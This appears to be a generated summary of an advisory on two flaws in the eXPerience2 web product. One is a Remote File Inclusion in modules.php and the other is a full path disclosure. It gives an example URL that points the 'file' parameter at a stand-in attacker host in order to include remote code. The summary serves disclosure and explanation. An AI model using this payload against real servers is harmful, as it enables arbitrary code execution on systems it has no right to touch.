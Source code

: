 The provided content describes multiple vulnerabilities in the eXPerience2 product. It specifically mentions:

**I. Remote File Inclusion:**

*   **Vulnerability:** The `modules.php` script is vulnerable to Remote File Inclusion (RFI).
*   **Attack Vector:** An attacker can inject a malicious URL into the `file` parameter of the `modules.php` script.
*  **Example:** `<http://www.host-vulnerable.com/eXPerience2/modules.php?file=http://evil->file/>`
*   **Impact:** By including a remote file, an attacker could execute arbitrary code on the vulnerable server.

**II. Full Path Disclosure:**

*   **Vulnerability:** The `modules.php` script discloses the full server path.
*   **Attack Vector:**  By accessing `<http://www.host-vulnerable.com/eXPerience2/modules.php>`, an attacker can see the server's full file path.
*   **Impact:** This information can be used to aid further attacks by giving attackers insights into the system configuration and location of other vulnerable files.

The content provides more detail than a typical CVE description by including specific examples of how to exploit the vulnerability and indicating two distinct vulnerabilities, not just one.